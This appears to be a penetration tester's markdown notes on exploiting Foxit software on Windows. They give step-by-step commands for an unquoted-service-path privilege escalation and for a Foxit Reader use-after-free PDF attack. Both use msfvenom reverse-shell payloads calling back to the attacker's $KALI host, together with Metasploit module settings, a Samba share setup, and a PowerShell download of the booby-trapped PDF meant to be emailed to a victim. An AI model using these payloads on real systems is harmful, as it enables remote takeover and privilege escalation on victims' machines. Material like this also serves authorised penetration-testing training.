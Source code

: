 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Unquoted Service Path
https://www.exploit-db.com/exploits/36390

In winpeas.txt, we see the service name right above the unquoted service path:

![[Pasted image 20220321181308.png]]

```command prompt - windows 
sc qc FoxitCloudUpdateService
```

We see that are no quotes around the bin path line.

![[Pasted image 20220320180823.png]]

We can now start testing where in this path we have write privileges.  Tested an echo command in Program Files x86,  we get access denied.  Tested in Foxit Software, we are successful at writing out test file. 

```command prompt - windows
echo "test" > test.txt
```

We place our malicious Foxit.exe file in the Foxit Reader directory.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe -o Foxit.exe
```

![[4._File Transfers#Certutil]]

![[___.Misc Commands#Restart host]]


#### PDF EXE

[https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/](https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/)

```bash - kali
sudo apt install samba
```

```bash - kali
sudo mkdir /mnt/files
```

```bash - kali
sudo chmod 777 /mnt/files
```

Now you need to configure the samba server. To do this, open the configuration file /etc/samba/smb.conf and paste the following text there:

```bash - kali
mousepad /etc/samba/smb.conf
```

```bash - kali
[global]  
security = user  
workgroup = MYGROUP  
server string = Samba  
guest account = nobody  
map to guest = Bad User

[share]  
path = /mnt/files  
browseable = Yes  
guest ok = Yes  
writeable = Yes  
public = yes  
```

```bash - kali
sudo service smbd restart
```

```bash - kali
sudo service nmbd restart
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 --arch x86 -f exe -o /mnt/files/exploit.exe
```

```bash - kali
sudo chmod 777 /mnt/files/exploit.exe
```

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/windows/fileformat/foxit_reader_uaf
```

```bash - kali
set LHOST $KALI
```

```bash - kali
set EXENAME exploit.exe
```

```bash - kali
set SHARE share
```

```bash - kali
run
```

```bash - kali
sudo cp /root/.msf4/local/test.pdf .
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

Download update.pdf on already compromised machine (if you have one), then use email app to send to victim:
```powershell - target
powershell -c "(new-object System.Net.WebClient).DownloadFile('$KALI:80/test.pdf','C:/Users/$USER/Documents/tools/update.pdf')"
```